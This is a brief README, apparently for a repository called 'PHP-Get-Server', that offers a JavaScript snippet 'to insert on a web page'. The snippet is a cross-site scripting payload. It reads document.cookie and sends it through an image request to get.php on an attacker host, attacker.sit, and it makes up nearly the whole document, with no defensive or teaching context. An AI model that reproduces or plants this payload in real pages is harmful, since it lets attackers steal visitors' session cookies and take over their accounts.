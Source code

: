 # PHP-Get-Server
php get server 

Code to insert on a web page:

      <script>
      var i = new Image();
      i.src="http://attacker.sit/get.php?q="+document.cookie;
      </script>
